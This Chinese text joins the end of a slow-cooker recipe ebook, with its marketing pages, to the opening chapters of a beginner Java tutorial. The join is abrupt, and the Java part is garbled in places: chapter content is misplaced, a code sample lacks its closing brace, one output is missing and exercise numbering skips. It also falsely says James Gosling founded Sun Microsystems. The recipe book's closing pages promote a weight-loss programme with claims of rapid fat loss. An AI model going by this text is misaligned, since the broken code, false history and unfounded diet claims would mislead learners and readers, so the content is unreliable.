- 将切片的肋眼牛排煎7至8分钟，然后加入慢炖锅中。
- 加入其余食材并充分搅拌。烹煮8至10小时。盛出享用！

提示：您可以在菜肴上撒上奶酪丝、牛油果片或墨西哥辣椒，以增加辣味。

### 食谱5：烧烤牛胸肉

制作烧烤牛胸肉非常简单，您甚至可以每天晚上都做这道菜，而无需费力。

您需要：
- 1千克牛胸肉
- 1个小洋葱，切碎
- 4勺红糖
- 1勺蒜粉
- 2勺伍斯特酱
- 1杯番茄酱
- 1茶匙红椒粉
- 1勺蒜末
- 1/3杯苹果醋
- 1杯低盐高汤
- 少许盐和胡椒

制作方法：
- 将红椒粉、大蒜和红糖在碗中混合，然后涂抹在牛胸肉上。确保各面都覆盖到。将其放入慢炖锅。
- 在另一个碗中，混合苹果醋、伍斯特酱和番茄酱，充分搅拌。倒入肉上。
- 烹煮6至8小时。煮熟后，将肉取出放在砧板上。静置15分钟。将肉切成薄片，并在上面涂抹一些酱汁。享用！

## 第 5 章 – 慢炖锅海鲜食谱

海鲜是一种能让你脸上露出笑容的食物，尤其是在特别的晚餐之夜。以下是一些您可能想尝试的绝妙海鲜食谱：

### 食谱1：柠檬鱼柳

用一丝柑橘烹制鱼会散发出清新的风味。在家试试这道菜，让自己享用清淡又美味的一餐。

您需要：
- 300克鱼柳
- 1个小洋葱，切碎
- 1勺柠檬皮屑
- 1勺橄榄油
- ½杯欧芹，切碎
- 少许黄油
- 少许盐和胡椒

制作方法：
- 用黄油涂抹锅底。用少许盐和胡椒给鱼调味。
- 将鱼放入锅中，加入柠檬皮屑、洋葱、欧芹和橄榄油。
- 烹煮1小时30分钟至3小时。盛出享用！

### 食谱2：丰盛炖海鲜

这是一道咸香可口、充满有趣风味的炖海鲜食谱。烹制这道菜几乎毫不费力。

您需要：
- 400克大虾
- 400克鱼柳
- 150克蛤蜊，切碎
- 2个大洋葱，切碎
- ¾杯切碎的芹菜
- 一罐番茄丁
- 1勺香醋或红酒
- ½茶匙糖
- 少许盐和胡椒
- 少许辣椒碎

制作方法：
- 除海鲜外，将所有食材放入锅中混合。
- 烹煮3至4小时，然后加入海鲜。
- 再烹煮30分钟。搭配意面或米饭食用。享用！

### 食谱4：慢炖锅海鲜浓汤

这绝对是您喝过的最美味的海鲜浓汤之一。而且最棒的是，烹制起来很简单。

您需要：
- 250克虾
- 250克蟹肉（冷冻）
- 150克西班牙辣香肠，切片
- 150克培根，切丁
- 3瓣大蒜，切末
- 半杯芹菜
- 一罐番茄
- 一杯青椒
- 1个小洋葱，切碎
- ½茶匙百里香粉
- 2 ½杯低盐鸡汤
- 一把四季豆，切碎
- 一杯奶油
- 少许盐和胡椒

制作方法：
- 在平底锅中将培根和西班牙辣香肠煎至棕色，然后舀入慢炖锅中。
- 在同一平底锅中，将大蒜与洋葱、芹菜和青椒一起翻炒。
- 将蔬菜转移到慢炖锅中，加入番茄、高汤、百里香粉和少许盐。
- 小火烹煮4小时，大火烹煮2小时。加入海鲜、四季豆和奶油。再烹煮40分钟。盛出享用！

### 食谱5：芝士金枪鱼意面

意面菜肴中的鱼绝对是健康又美味的享受。试试这个，尝尝它的味道。

您需要：
- 250克金枪鱼肉，切块
- 1个小洋葱，切碎
- ½杯胡萝卜丝
- 半杯番茄膏
- 1 ½杯番茄酱
- 半茶匙干罗勒
- 少许盐和胡椒
- 1根芹菜茎，切碎
- 一茶匙糖

制作方法：
- 将所有食材放入慢炖锅。
- 盖上盖子，烹煮6至7小时。如需要，可加少许水稀释酱汁。
- 将其浇在意面上——意大利细面、宽面等。享用！

## 第 6 章 – 慢炖锅蔬菜食谱

蔬菜应该始终出现在您的餐食中。将烤得恰到好处的土豆搭配热气腾腾、咸香可口的烧烤总是很不错。或者，蔬菜菜肴本身也可以成为您餐食的核心。以下是一些您可以用慢炖锅烹制的更多蔬菜食谱：

### 食谱1：奶油芝士玉米

这道玉米食谱是烤肉菜肴的完美搭配。它非常美味，甚至可以单独食用。

您需要：
- 500克玉米粒（冷冻）
- 半杯牛奶
- 半杯黄油
- 240克奶油奶酪
- 盐和胡椒
- 1勺糖

制作方法：
- 将所有食材放入慢炖锅。
- 盖上盖子，小火烹煮4至6小时，或大火烹煮2至3小时。
- 盛出享用！

### 食谱2：蔬菜炖菜

这是一道非常简单的蔬菜炖菜，能让你免去在厨房里待上数小时。只需混合所有食材，做做家务或休息一下，然后品尝它的美味。

您需要：
- 250克黑豆，浸泡6至8小时
- 一杯生藜麦
- 1杯甜椒，切碎
- 1个洋葱，切丁
- 4瓣大蒜，压碎
- 2至3个墨西哥烟熏辣椒（干）
- 2小罐番茄丁
- 半茶匙肉桂粉
- 一把新鲜香菜，切碎
- 少许盐和胡椒

制作方法：
- 除盐外，将所有食材放入慢炖锅，并充分搅拌。
- 小火烹煮8至10小时，或大火烹煮4至6小时。
- 煮熟后加入盐。放上您选择的配料，如牛油果、香菜或柑橘瓣。享用！

提示：在最后加盐，因为它可能会影响豆子的烹煮。

### 食谱3：地中海风味蔬菜咖喱

这是一道风味浓郁的蔬菜菜肴，最好搭配蒸粗麦粉食用。

您需要：
- 3杯土豆块
- 5杯番茄，切块
- 1杯甜椒
- 1个大洋葱，切碎
- 5根秋葵，切成1英寸厚的片
- 2至3勺咖喱粉
- 2瓣大蒜，切末
- 半茶匙卡宴辣椒粉
- 一杯原味酸奶

制作方法：
- 将所有食材放入锅中，充分搅拌。
- 小火烹煮8至10小时。
- 搭配热气腾腾的蒸粗麦粉食用，并在上面放上酸奶、葡萄干或水果味酸辣酱。享用！

### 食谱4：经典蔬菜辣椒

大家一定会喜欢这道经典蔬菜辣椒食谱。它非常适合家庭晚餐之夜，甚至在家举办派对时也很合适。

您需要：
- 400克芸豆
- 400克素食豆
- 一罐黑豆汤
- 400克番茄泥
- 一罐整粒玉米
- 一杯青椒
- 1个大洋葱，切碎
- 3瓣大蒜，切末
- 3根芹菜茎，切碎
- 1勺罗勒（干）
- 1勺牛至粉
- 1勺辣椒粉
- 盐和胡椒

制作方法：
- 将所有食材放入慢炖锅，先不放盐。
- 大火烹煮2小时，或小火烹煮4小时。
- 煮熟后用盐调味。享用！


### 食谱 5：慢炖锅洋蓟

这道洋蓟食谱在工作日晚上非常完美。这道食谱很容易做：

**您需要：**

- 4 到 5 个洋蓟
- 3 汤匙柠檬汁
- 半汤匙盐

**如何准备：**

- 彻底清洗洋蓟并去除茎部。
- 切掉顶部约一英寸并将其排列在慢炖锅中。
- 将柠檬汁与盐混合并倒在洋蓟上。
- 加入一些水，低火煮 8 小时，高火煮 3 到 4 小时。

小贴士：最好蘸融化的黄油食用。用牙齿取出叶子上的肉质部分。

## 第 7 章 – 慢炖锅甜点食谱

谁会想到你可以用慢炖锅制作诱人的甜点？看看这些食谱：

### 食谱 1：慢炖锅桃子肉桂甜点

这个桃子甜点绝对能满足甜食渴望。你不会相信它来自慢炖锅。

**您需要：**

- 2 到 3 杯切片桃子（冷冻）
- 1 茶匙香草提取物
- 1/3 杯红糖
- 一撮肉桂
- 3 汤匙黄油（融化）
- 250 克白蛋糕粉
- 1 勺玉米淀粉

**如何准备：**

- 用一点黄油涂抹锅并摆放桃子。
- 将红糖、香草倒在桃子上。
- 加入蛋糕粉和肉桂粉。上面倒入融化的黄油。
- 高火煮 3 到 4 小时或低火煮 8 到 10 小时。享用！

### 食谱 2：慢炖锅巧克力蛋糕

巧克力蛋糕是经典甜点，你可以用慢炖锅轻松制作。

**您需要：**

- 2 杯通用面粉
- 1 杯可可粉
- 2 杯糖
- 2 茶匙泡打粉
- 2 茶匙小苏打
- 1 勺香草提取物
- 1 ½ 杯牛奶
- 3 勺植物油
- 1 杯热水

**如何准备：**

- 将所有干性材料混合在一个碗中，所有湿性材料混合在另一个碗中。
- 将湿性材料连同热水倒入干性材料中并充分搅拌。
- 将面糊倒入锅中。
- 低火煮 3 到 4 小时。让蛋糕静置 20 到 40 分钟。享用！

### 食谱 3：香料坚果苹果美味

这个苹果甜点食谱非常美味，最好搭配打发奶油或香草冰淇淋。

**您需要：**

- 6 个苹果，去核去皮，切块
- 1/3 杯红糖
- ½ 杯白糖
- 1/3 杯黄油
- 1 杯面粉
- 1 茶匙肉桂
- ½ 茶匙肉豆蔻
- 1 勺玉米淀粉
- 一杯核桃，切碎
- 2 勺柑橘汁

**如何准备：**

- 在碗中混合红糖、半量白糖、肉桂、盐和肉豆蔻。
- 用叉子混合面粉和黄油。加入核桃。留待稍后使用。
- 搅拌剩余的肉桂和糖，然后加入玉米淀粉。
- 将苹果放入锅中，倒入一些柑橘汁。上面铺上带核桃的酥屑混合物。
- 低火煮 4 小时，高火煮 2 小时。
- 再煮 30 分钟，盖子半开，让顶部变脆。
- 搭配香草冰淇淋或奶油食用。享用！

### 食谱 4：美味南瓜蛋糕

这个食谱做出的南瓜蛋糕湿润美味，旨在为每餐画上美味的句号。

**您需要：**

- 1 包黄蛋糕粉
- 一杯南瓜，煮熟
- 5 个鸡蛋
- 半杯水
- 3 勺植物油

**蛋糕霜：**

- 120 克软化奶油奶酪
- ¼ 杯黄油
- 1 ½ 杯糖粉
- 半茶匙香草提取物

**如何准备：**

- 将南瓜捣碎，备用。
- 在碗中混合蛋糕粉、鸡蛋、植物油和水。快速搅拌 1 到 2 分钟。
- 将面糊倒入锅中，高火煮 2 小时。静置 10 到 15 分钟。切成两半做成两层薄片。
- 在另一个碗中混合黄油、奶油奶酪和香草。搅拌至顺滑均匀。慢慢加入糖粉。涂在其中一层上，上面盖上另一层。上面涂抹霜。撒上切碎的核桃。享用！

### 食谱 5：慢炖锅巧克力坚果糖

这可能是你做过的最好吃也最简单的慢炖锅甜点。

**您需要：**

- 500 克烤坚果 – 核桃/花生/腰果
- 400 克巧克力豆
- 4 块巧克力棒

**如何准备：**

- 将所有材料放入慢炖锅中。
- 低火煮 3 小时。静置至少 30 分钟。
- 充分搅拌并倒在蜡纸或饼干托盘上。用勺子均匀分开。
- 用木铲将其取出。享用！

## 赠品：免费获取我的更多视频和书籍！

感谢阅读我的书！我希望你从中获得了极大的价值。为了感谢你，我想赠送你更多免费的视频、书籍和健康相关信息！

只需点击下面的链接并在我的网站上输入你的电子邮件地址！

如果你认真对待改变饮食和健康，你将获得的一切都会对你有用。我将提供：

- 我写的更多书籍
- 制作特色菜肴的视频
- 与健康相关的我最喜欢的产品信息
- 以及更多！

[点击这里获取所有这些信息！](#)

嘿，我希望你喜欢我的书。为了给你更多价值，我想给你一些免费内容，以及我最近尝试的一种饮食的信息，它帮助我减掉了顽固的 unwanted 脂肪。

这个项目给了我减掉顽固脂肪并感觉年轻 10 岁的策略！

这个项目叫做 The Fat Diminisher。这种饮食在帮助人们实现减重目标方面取得了巨大成功。这个项目不仅帮助你减掉 unwanted 脂肪，还教你如何永久保持！

在短时间内减肥一直被认为几乎是不可能完成的任务。多年来，医生和营养师一直告诉公众，要看到减肥进展或塑造完美身材需要数月甚至数年的努力。但这完全不真实。

人体具有高度适应性，能够在极短时间内发生变化。想想看。如果人们可以通过几周的不健康饮食快速增加大量脂肪，那么他们是否可以通过几周的健康饮食快速减掉很多体重呢？当然可以。

但你需要吃什么才能快速减肥？从低碳水化合物、低脂肪、无糖、高蛋白，甚至“穴居人”饮食——选择太多，普通人很难弄清楚应该使用哪种饮食来快速减肥。其中一些饮食甚至对应该吃什么、不应该吃什么提供相互矛盾的信息。好吧，这一切即将改变。

*现在观看视频！*

如果你还没有，请务必查看我的新网站，*KindleBookSpot.com*。这是一个我一直在做的项目，我真的希望它对我的读者有价值。我创建这个网站是因为我想给你们一个更简单的方式，在一个地方以折扣价找到最热门的 Kindle 书籍。以下是我的网站的一些详情：

- 最畅销免费 Kindle 书籍列表
- 折扣小说和非小说书籍
- 每周一书
- 精选书籍
- 在我的网站上推广你自己的书

这个网站不仅面向读者，也是新兴作者在新书成为畅销书之前推广新书的地方。所以如果你想推广自己的书，请查看我的网站，*KindleBookSpot.com*。

我希望这个网站对你有用，希望在那里见到你！

*订阅 KindleBookSpot 的不断发展的社区，在最好的书籍打折和免费时收到通知。*


# Java 训练营

## 在两周内学习 Java 编程基础

在 KindleBookSpot.com 获取更多免费和特价书籍

## 目录

- 引言
- 第1章：欢迎来到 Java 编程世界
- 第2章：“Hello Java”，初次相遇
- 第3章：数据类型与变量
- 第4章：有用的表格，随时备用
- 第5章：做数学运算及其他事情
- 第6章：选择语句
- 结论

## 引言

我要感谢并祝贺你下载了《在两周内学习 Java 编程基础》这本书。

本书包含经过验证的步骤和策略，帮助你在两周内学习 Java 编程基础。阅读本书后，或者在边学边将所学应用于编写程序时，你应该能够创建简单的程序。

在开始学习 Java 编程之前，具备基本的计算机知识很重要。如果你还了解其他编程语言，也会有所帮助。你可以设计一个程序流程，并在不同的编程语言中使用它。这就像用英语写一部小说，再把它翻译成不同的语言。然而，程序员为设计好的程序流程选择某种特定编程语言是有原因的。可以说，每种编程语言都有其独特特性，程序员为了实现心中想要的输出需要这些特性。

Java 有很多用途，而且并不难学。学习编程语言时，通过示例学习总是更容易。本教程中会出现大量示例程序，你也将需要自己动手做一些。我们会提供输出结果，这样你就能知道自己做得是否正确。

本书将介绍基本的 Java 编程语法，以及应避免用作变量名的保留字列表。

你会非常高兴自己选择了这本书来学习 Java 编程基础。

再次感谢你下载本书，希望你喜欢它！

## 在我们开始之前……福利：获取我提供的更多免费书籍！

感谢阅读我的书！希望你能从中获得很棒的价值。我想通过赠送更多免费书籍以及与编程和技术相关的信息来感谢你！

只需点击下面的链接，并在我的网站上输入你的电子邮件地址！

如果你真心想改变自己的编程技能，你获得的一切都会对你有用。我将提供：

- 我写的更多书籍
- 我如何在创纪录的时间内学会编程
- 我最喜欢的编程相关产品的信息
- 以及更多内容！

[点击此处获取所有这些信息！](link)

## 第 1 章：欢迎来到 Java 编程世界

Java 被认为是一种高级编程语言，旨在创建强大、安全的应用程序。它可运行于各种平台或操作系统，如 Windows、Mac OS X、Linux 以及多个版本的 UNIX。Java 是一种以灵活性、可维护性和可扩展性著称的编程语言。

首先，你需要在计算机上安装 Java，或者可以前往[此处]进行在线编码。正如本电子书引言所述，你需要具备基本的计算机知识。如果你熟悉某种编程语言或 Java，也会大有帮助。

### Java 简史

詹姆斯·高斯林创立了 Sun Microsystems。1991年6月，高斯林启动了 Java 语言项目。它最初被称为 Oak，之后叫 Green。最后，它被命名为 Java，并没有什么特别的原因。Java 1.0 于1995年发布。当前的 Java 标准版是 Java SE 8。

2007年，除了一小段 Sun 没有版权的代码外，Java 的核心代码以自由开源软件的形式发布。

### Java 有几个优点

Java 是面向对象的，这意味着在 Java 中一切皆对象。它可以轻松扩展。

它也被认为是平台无关的，不像 C 和 C++ 等大多数编程语言。编译 Java 时，你不会把它编译成特定平台的机器码；而是编译成字节码。所述字节码通过网络分发，并由虚拟机解释执行。

Java 简单，易于学习。然而，你最好深入理解面向对象编程（OOP）的概念，这样你会更容易掌握 Java。面向对象编程相对于过程式编程的主要优势之一是，它能让程序员创建不同的模块，即使添加新类型的对象，这些模块也无需修改。当你在学习 Java 编程的同时增强对 OOP 的了解时，你会更理解这一点。

Java 具有安全特性；它能够帮助你创建防篡改、无病毒的系统。

Java 编译器可以生成与体系结构无关的目标文件格式。编译后的代码可在许多处理器上通过 Java 运行时系统执行。这也使 Java 具有可移植性。

Java 是动态的；许多程序员认为它实际上比 C++ 或 C 更动态。Java 能有效适应任何环境。

Java 还有更多优点，你将在学习 Java 编程并进一步了解 OOP 之美时发现它们。

### 开启 Java 编程世界之旅所需的物品

你需要一台至少由 Intel Core 2 Duo 处理器驱动、内存至少 1GB 的计算机。实际上，这些是如今你能买到的大多数计算机最基本（甚至更低）的配置。如果你能在计算机上玩电子游戏，那么它的性能对于 Java 编程来说绰绰有余。

你的操作系统（OS）应为 Windows XP、Windows 7、Windows 8 或 Linux。本书已提供上述平台的设置路径，不过建议使用提供的链接进行在线编码，以便立即开始。

如果你选择在计算机上安装 Java，则需要选择 Java JDK 8。

你还需要准备 Microsoft 记事本或其他文本编辑器。

### 本地环境

如果你想为 Java 编程创建本地环境设置，那么你需要前往此[链接]免费下载 Java，务必选择与你的操作系统兼容的版本。

为你的操作系统选择正确的 Java 后，按照说明正确下载 Java，并运行“.exe”文件，以便在计算机上安装 Java。安装完成后，你需要为你的特定平台设置路径。

### Windows 的路径

假设你已在计算机上成功安装 Java，当你尝试查看目录时，它看起来像这样：

```
c:\Program Files\java\jdk
```

将光标指向“我的电脑”并单击它。打开后，右键单击它并选择“属性”（位于选项的底部）。

在“高级”选项卡下，你会看到一个写着“环境变量”的按钮，你需要单击它。

接下来你需要修改“Path”变量。它需要包含指向 Java.exe 的路径。如果你的当前路径设置为 `C:\WINDOWS\SYSTEM32`，你需要将路径改为：

```
C:\WINDOWS\SYSTEM32;c:\Program Files\java\jdk\bin
```

### Linux、UNIX、Solaris、FreeBSD 的路径

你需要设置环境变量 PATH，以正确指向 Java 二进制文件的安装位置。如果在设置路径时遇到问题，可以参阅你的 shell 文档。

例如，如果你使用“bash”，那么你需要添加“export PATH=/path/to/java:$PATH”，它会像这样显示：

```
.bashrc: export PATH=/path/to/java:$PATH
```

### 常用的 Java 编辑器

过去的编程语言不像大多数现代编程语言那样需要文本编辑器，但进行 Java 编程时你需要使用一个文本编辑器。有几种成熟的 IDE（集成开发环境）可用于 Java 编程。IDE 是一种软件应用程序，为程序员提供用于软件创建或开发的全面功能。IDE 通常由构建自动化工具、调试器和文本编辑器组成。

以下是一些你可以使用的最流行的文本编辑器：

- 1. Notepad – 如果你的计算机运行 Windows，那么你可以使用内置的 Notepad 编辑器编写代码。
- 2. NetBeans – 实际上是一个 Java IDE，你可以从此[链接]()免费下载。
- 3. Eclipse – 是另一个由 Eclipse 开源社区创建的 Java IDE。你可以从此[链接]()免费下载。

一旦你准备好一切，我们就可以继续学习 Java 编程基础，这将让你更接近完全独立创建 Java 程序的目标。


## 第 2 章：“Hello Java”，初次相遇

“The Hello” 程序是初学者学习编程时学到的第一课，原因有很多。该程序向你介绍了开始编写程序时首先需要做的事情，以及你需要学习和使用的一些语法。

为保持统一，示例中我们将使用在线编程（链接已在前面提供）。之后你可以使用自己的 Java.exe。实际的在线 Java 控制台会显示不同的字体颜色。只有在必须详细解释某个命令或字符/符号时，我们的示例中才会使用不同颜色的字体。

### Hello Java，基本语法

请看下面的示例程序，我们将逐行分析它：

```java
1  public class FirstProgram {
2

3      /* This is the first sample.
4       * We will print 'Hello Java' as the output
5      */
6

7      public static void main(String []args) {
8          System.out.println("Hello Java"); // prints Hello Java
9      }
10 }
```


顺便说一下，必须牢记 Java 是区分大小写的。标识符 'Hello' 和 'hello' 在 Java 编程中并不相同。请确保正确定义一切，并在整个程序中始终如一地使用正确的大小写标识符。

第一行包含类名 'FirstProgram'；不要在构成类名的单词之间加入空格。类名中包含的下一个单词的首字母应为大写。你的程序应始终以 'public class'（全部小写）开头，后跟类名。你是否看到类名末尾的黄色大括号？也不要忘记包含它。它标志着其后的内容是你的程序代码。

你的程序文件名应与你指定的类名相同。保存文件名时，只需在文件名后加上 '.java'。请看上面的示例。保存时，写成 'FirstProgram.java'。

第二行为空，以便使代码更易读。

第三行以 '/*' 开始，第五行有 '*/'。当你需要包含多行注释时使用它们，编译器不会将其视为程序的一部分。你通常会加入注释来稍微解释一下程序，相当于给自己一个提醒，或帮助负责维护程序的程序员。

第七行包含方法名，所有方法名都应小写。方法名始终写成如下形式：

```java
public static void main(String []args) {
```

方法名末尾的大括号提示程序执行大括号内包含的所有内容（在我们的示例中，闭合大括号在第 9 行）。

在示例中，第 8 行包含一条命令，告诉程序在屏幕上打印 'Hello Java'。命令语句末尾应有一个分号（;）。'//' 符号是另一种注释，当你只需要做单行注释时使用它。

'.println' 是告诉程序打印括号内内容的命令。

请确保每个开始大括号都有对应的闭合大括号。在示例中，第 1 行的开始大括号在第 10 行闭合。第 7 行的开始大括号在第 9 行闭合。

再看一个：


```java
public class FirstName {
  public static void main(String []args) {
  System.out.println("Erika");
}
```

它会产生以下结果：



另外，请确保正确缩进以使代码更易读。

你在下一章将更多地了解数据类型和变量。

```java
public class IntPrinting {
    public static void main(String []args) {
        System.out.println(10);
    }
}
```

它会产生以下结果：



int 数据类型只能接受 -2,147,483,648 到 2,147,483,647 之间的值。

只要你遵循与给定示例相同的正确语法，放在 'System.out.println();' 括号内的任何数字都会被打印出来。

### 布尔值（true 或 false）

布尔数据类型只能是 true 或 false。它不会产生其他答案。你不需要将其放在引号中，因为程序将 true 和 false 识别为布尔的有效值。

请看示例程序：

```java
public class BooleanPrinting {
```

```java
2  public static void main(String []args) {

3  System.out.println(true);

4  }
5  }
```

它会产生以下结果：

```text
true
```

尝试将括号内的 *true* 替换为 'me'，如下所示：

```java
1  public class BooleanPrinting {

2  public static void main(String []args) {

3  System.out.println(me);

4  }
5  }
```

它会产生以下结果：

```text
/tmp/java_FlX6ZW/BooleanPrinting.java:3: error: cannot find symbol

    System.out.println(me);
```

^ 
symbol: variable me
location: class BooleanPrinting
1 error

它不识别单词 'me'，因为它是一个字符串。打印字符串时，你需要在引号内写它。

### 字符（char）

字符或 char 数据类型表示单个字符。所有值必须用单引号括起来；否则你会收到错误信息。

请看下面的示例：

```java
public class BooleanPrinting {
  public static void main(String []args) {
    System.out.println('r');
  }
}
```

它会给出以下结果：


int、boolean 和 char 是 Java 的基本数据类型。你以后会遇到更多。

### 使用变量

在 Java 编程中，你可以将值存储到变量中，其他编程语言也有此功能。在 Java 中使用变量时，你需要指定数据类型。

以下是 Java 保留字列表，不应将其用作变量：

| abstract | assert | boolean | break | long |
|---|---|---|---|---|
| byte | case | catch | char | private |
| class | const | continue | default | short |
| do | double | else | enum | switch |
| extends | final | finally | float | native |
| for | goto | if | implements | new |
| import | instanceof | int | interface | package |
| transient | protected | public | return | super |
| synchronized | static | strictfp | throws | this |
| volatile | while | try | throw | void |

请记住，你不应以大写字母开头变量名，尽管你可以在变量名中使用大写字母，如下所示：

```java
int myFavoriteNumber = 10;
```

你需要在开头写 int 以标识数据类型，'myFavoriteNumber' 是变量名，'10' 是分配给它的值。

自己试试：

- 1. int 变量 mySampleNumber 必须等于 6。
- 2. boolean 变量 mySampleAnswer 必须等于 true。
- 4. char 变量 mySampleLetter 必须等于 L。

只需将指令告诉你分配的值分配给每个变量。运行程序时你不会看到值打印在屏幕上。如果你想打印这些值，那么你需要在程序中添加 System.out.println()，你会怎么做？提示 – 需要打印的每个变量都必须有自己的 System.out.println()，确保写正确，并且不应是变量的实际值。

就这一次，你需要在程序中添加这些行：

```java
8  System.out.println(mySampleNumber);
9  System.out.println(mySampleAnswer);
10 System.out.println(mySampleLetter);
```

你将得到以下输出：

```text
6
true
L
```


现在，你准备好迎接一个更具挑战性但也更有成就感的课程了。

## 第 4 章：实用表格，方便查阅

本章收录了各种你需要随时查阅的表格，它们是你学习Java时的快速参考。如果你能迅速记住它们，那当然更好。

### Java 数值运算符

大多数编程语言都使用相同的符号来表示数值运算符。如果你已经了解一门现代编程语言，就会注意到Java的数值运算符符号与你熟悉的编程语言大多相同。

| 符号 | 运算 | 示例 |
|---|---|---|
| + | 加法 | 8 + 7 |
| - | 减法 | 26 - 9 |
| * | 乘法 | 9*5 |
| / | 除法 | 81/3 |
| % | 取余 | 23%3 |

### Java 比较运算符（也称为关系运算符）

如果你熟悉其他现代编程语言的比较运算符，那么记住下面的表格会很容易。

| 运算符 | 符号 |
|---|---|
| 小于 | < |
| 小于或等于 | <= |
| 大于 | > |
| 大于或等于 | >= |
| 等于 | == |
| 不等于 | != |

### 布尔逻辑运算符

布尔逻辑运算符与比较运算符不同，使用时要小心。

| 运算符 | 符号 |
|---|---|
| 非 | ! |
| 与 | && |
| 或 | \|\| |
| 异或 | ^ |

### 各种真值表

**“非”真值表**

| A | !A |
|---|---|
| 假 | 真 |
| 真 | 假 |

**“与”真值表**

| E1 | E2 | E1 && E2 |
|---|---|---|
| 假 | 假 | 假 |
| 假 | 真 | 假 |
| 真 | 假 | 假 |
| 真 | 真 | 真 |

*E1 表示表达式1，E2 表示表达式2，其余各表同理。*

**“或”真值表**

| E1 | E2 | E1 \|\| E2 |
|---|---|---|
| 假 | 假 | 假 |
| 假 | 真 | 真 |
| 真 | 假 | 真 |
| 真 | 真 | 真 |

**“异或”真值表**

| E1 | E2 | E1 ^ E2 |
|---|---|---|
| 假 | 假 | 假 |
| 假 | 真 | 真 |
| 真 | 假 | 真 |
| 真 | 真 | 假 |

你最好能立刻记住这些表格，这样在需要确认时就不必再翻看。后续章节的课程中你会用到这些表格。

## 第 5 章：进行数学运算及其他操作

是时候用Java的方式来做数学运算了。你可以进行加、减、乘、除和取余运算。这些内容并不难理解，一旦你开始编写自己的程序，一定会体会到数值运算符的用处。如果你还没有记住Java中各种数值运算符的符号，可以随时回到第4章查看数值运算符表。

### 动手尝试：Java 加法

你可以创建如下程序：

```java
public class AdditionProgram {
    public static void main(String []args) {
        System.out.println(5 + 9);
    }
}
```

你也可以像这样使用变量：

```java
public class AdditionProgram {
    public static void main(String []args) {

        int a = 5;
        int b = 6;
        System.out.println(a + b);

    }
}
```

### 动手尝试：Java 减法及其他数学运算

以上面的示例为指南，创建一个简单的Java程序，分别实现减法、乘法、除法和取余（也称模运算）。你可以自己动手练习，直到掌握要领。练得越多，你就会越觉得它不那么有挑战性。到那时，你会发现使用Java更加得心应手。

### 比较运算符

比较运算符也叫做关系运算符。它们比较数据类型，并总是返回一个布尔值，即真（true）或假（false）。如果你对这些运算符的表格还不熟悉，可以在开始使用关系运算符时回头查阅。

比较运算符位于两个数据之间，这两个数据称为操作数。如果你执行以下语句：

```
System.out.println(9<7);
```

你会得到 false 作为答案。Java程序会识别出，当遇到包含关系运算符的语句时，它应当返回一个布尔值。

等于（==）和不等于（!=）运算符也称为相等运算符。在Java编程中，程序员可以使用相等运算符来检验数据是否相等。可以在 int、boolean 或 char 数据类型之间进行相等性测试。请看下面的示例：

```java
char sampleChar = 'L';
int sampleNum = 5;
System.out.println(sampleChar==sampleNum);
```

上面的示例将在屏幕上打印‘false’，因为变量 sampleChar 中的值与变量 sampleNum 持有的值不相同。

### 一些可尝试的练习

现在你可以通过这个简单的编程练习来检验自己学了多少。别担心；如果你觉得有点挑战性，之后会看到正确的代码。如果你看到错误信息，请仔细阅读并尝试找出你所犯的错误。有时，一个简单的拼写错误就可能毁掉整个程序，除非你立刻发现它。请确保你正确使用了大写和小写字母。

- 1. 将‘this is my program’声明为你的类名；在编写程序时务必正确书写。
- 2. 写一行单行注释，内容不限。
- 3. 将值‘false’赋给布尔变量 isAnything。
- 4. 将值‘789’赋给 int 变量 isTooMuch。
- 5. 将 isTooMuch 乘以 3 的值赋给 int 变量 isMuchMuch。
- 6. 打印 isAnything、isTooMuch 和 isMuchMuch 的值。

请先自己尝试编写给出的示例，然后再看答案。你也可以多加练习。

完成后，你可以看看下面的答案。你写的是否一样呢？

```java
public class ThisIsMyProgram {
    // this is my single line comment

    public static void main(String []args) {

        boolean isAnything = false;
        int isTooMuch = 789;
        int isMuchMuch = isTooMuch * 3;

        System.out.println(isAnything);
        System.out.println(isTooMuch);
        System.out.println(isMuchMuch);

    }
}
```

现在你已经了解了Java基础知识，让我们更上一层楼。你需要为控制流的入门做好准备。

## 第 6 章：选择语句

Java控制语句控制着Java程序的执行顺序。你需要理解三大类别，它们是：

- 1. 选择语句：if、if-else 和 switch 语句。
- 2. 循环语句：while、do-while 和 for。
- 3. 转移语句：break、return、try-catch-finally、continue 和 assert。

如果你想改变默认的执行顺序，可以使用上述任何一种语句（视程序需要而定）。在Java基础知识部分，我们将讨论选择语句以及少量循环语句。

### 选择语句

该类别包括：if 语句、if-else 语句和 switch 语句。

### 处理 if 语句

if 语句指示计算机，只有当 if 语句中的表达式为真时，才执行特定的代码块。如果该表达式为假，则该代码块不会被执行。程序将继续执行其余代码，前提是没有其他选择语句因某个条件而触发执行。

if 语句遵循以下语法：

```
if (<conditional expression>)
<statement action>
```

请看下面的示例：

```java
public class SampleIfStatement {

public static void main(String[] args) {
```


```java
3
4  int a = 20, b = 30;
5  if (a > b)
6      System.out.println("a is greater than b");
7  if (a < b)
8      System.out.println("b is greater than a");
9  }
10 }
```

你认为这个程序会输出什么？

### 理解 if-else（或嵌套 if）语句

像 *if* 语句一样，if-else 语句也命令计算机仅在 if 语句中的表达式为真时执行 if 语句下的特定代码块。如果该语句为假，那么接下来必须执行 else 语句，并且仅当 else 选项中的条件得到满足时才会执行。

if 语句遵循以下语法：

```text
if (<conditional expression>) {

<statement action>

} else {

<statement action>
}
```

看看下面的示例程序：

```java
public class IfElseStatementDemo {

public static void main(String[] args) {
int a = 20, b = 20;
if (a > b) {
System.out.println("a is greater than b");
} else if (a < b){
System.out.println("b is greater than a");
} else {

System.out.println("a is equal to b");

}
}
}
```

如果你试着分析它：

第4行给出了程序需要处理的给定数据。

第5行有一个条件：如果 *a* 大于 *b*，那么它将打印“a is greater than b”。如果你查看给定数据，该语句为假，这会促使程序执行下一条语句，即 else 语句。

第7行提出了另一个选项或条件；不幸的是，它仍然为假。

剩下的就是打印“a is equal to b”。

程序不会执行 if 或 *else-if* 语句下的语句，因为两个语句都为假。然而，底部的 else 语句没有提供任何条件，这告诉程序打印“a is equal to b”，而它实际上为真。

试着更改程序中的给定数据，看看程序如何响应。

### switch 语句

switch 语句也称为 case 语句，你可以在其中为用户提供不同的选项，程序将执行相应的选项。switch 语句类似于 if-else 语句，其中会呈现多个选项，程序会寻找第一个被证明为真的选项。它将执行返回 true 值的 if-else 选项下的语句。

